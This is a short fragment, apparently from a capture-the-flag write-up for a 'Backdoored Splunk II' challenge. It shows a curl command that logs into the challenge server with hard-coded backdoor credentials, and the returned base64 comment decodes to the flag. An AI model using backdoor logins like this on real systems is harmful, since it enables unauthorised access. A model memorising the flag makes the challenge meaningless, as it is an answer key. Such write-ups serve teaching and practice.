 ## Backdoored Splunk II

```sh
$ curl -s -u 'backdoor:this_is_the_http_server_secret' http://challenge.ctf.games:PORT

<!-- ZWNobyBmbGFne2UxNWE2YzAxNjhlZTRkZTczODFmNTAyNDM5MDE0MDMyfQ== -->  
```
